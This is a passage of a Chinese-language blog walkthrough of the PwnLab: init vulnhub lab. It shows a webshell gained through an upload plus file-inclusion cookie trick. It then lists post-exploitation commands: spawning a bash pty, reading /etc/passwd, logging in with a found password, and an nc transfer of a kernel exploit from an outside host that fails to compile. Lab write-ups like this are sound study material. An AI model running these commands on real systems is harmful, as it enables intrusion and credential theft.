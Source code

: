 </div><p>没想到里面暗藏乾坤啊，include()函数，又包含了一个lang/</p><p>先用burp，拦截到上传页面，然后将Cookie: PHPSESSID=58eb3vo1suaoh1iv8nkh21gho7，改成如图所示</p><div class="image-package">
<img class="uploaded-img" src="http://upload-images.jianshu.io/upload_images/2883590-34f63b52952ca46d.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" width="auto" height="auto"><br><div class="image-caption"></div>
</div><p>然后点，go执行请求，于是用文件包含成功运行webshell。</p><p>运行的命令：</p><p>shell</p><p>id</p><p>python -c 'import pty;pty.spawn("/bin/bash")'</p><p>cat /etc/passwd</p><p>获得信息：四个普通用户，以及root用户（通过分析passwd文件第三项大于500可知）</p><blockquote>
<p>john:x:1000:1000:,,,:/home/john:/bin/bash</p>
<p><b>kent:x:1001:1001:,,,:/home/kent:/bin/bash</b></p>
<p><b>mike:x:1002:1002:,,,:/home/mike:/bin/bash</b></p>
<p><b>kane:x:1003:1003:,,,:/home/kane:/bin/bash</b></p>
</blockquote><p>其中有三个我们知道用户名和密码，于是尝试登陆 kent/JWzXuBJJNy ，ok得到普通用户权限。</p><hr><p>uname -a</p><p>Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux</p><p>尝试内核漏洞提权：nc -lvp 666 &lt; /root/Desktop/40847.cpp</p><p>nc 192.168.1.107 666 &gt; xx.cpp</p><blockquote>
<p>kent@pwnlab:~$ file xx.cpp</p>
<p>file xx.cpp</p>
<p>xx.cpp: C++ source, ASCII text, with CRLF line terminators</p>
<p>kent@pwnlab:~$ gcc xx.cpp</p>
<p>gcc xx.cpp</p>
<p><b>gcc: error trying to exec 'cc1plus': execvp: No such file or directory</b></p>
</blockquote><p>发生了一个错误，找的网上答案说，gcc是c编译器，g++是c++编译器，所以用g++编译，然后靶机上并没有g++编译器。。失败</p><p><a href="http://www.abatchy.com/2016/11/pwnlab-init-walkthrough-vulnhub.html" target="_blank">writeup贴上</a>：后面提权方式看不懂了，好像用到了pwn——二进制分析的知识。。</p><p>向各位提供writeup的大佬低头。。</p><p>总结：</p><p>本次学习了上传+文件包含拿webshell的方法。</p><p>linux base64解码的命令</p><p>echo “(base encoded text past here without braket)” | base64 -d</p>
        </div>
      </div>
    </div>
  </body>
</html>
